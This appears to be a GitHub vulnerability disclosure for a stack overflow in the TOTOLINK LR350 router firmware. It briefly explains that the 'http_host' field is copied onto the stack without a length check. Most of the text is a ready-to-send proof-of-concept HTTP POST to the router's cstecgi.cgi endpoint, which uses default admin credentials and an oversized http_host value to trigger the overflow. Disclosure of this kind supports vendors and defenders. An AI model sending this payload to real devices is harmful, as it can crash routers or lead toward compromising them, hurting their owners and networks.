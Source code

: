 # TOTOLINK LR350 V9.3.5u.6369_B20220309 Stack Overflow

### Product Information

Product: TOTOLINK LR350 Firmware Version: V9.3.5u.6369_B20220309 Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

### Analysis

![image-20240523220326496](./image-20240523220326496.png)

As shown in the figure, if the content of the "http_host" field is not empty, it will be copied onto the stack without checking the length, which can lead to a stack overflow vulnerability.

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 449
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/login.html

{"username":"admin","password":"admin","http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

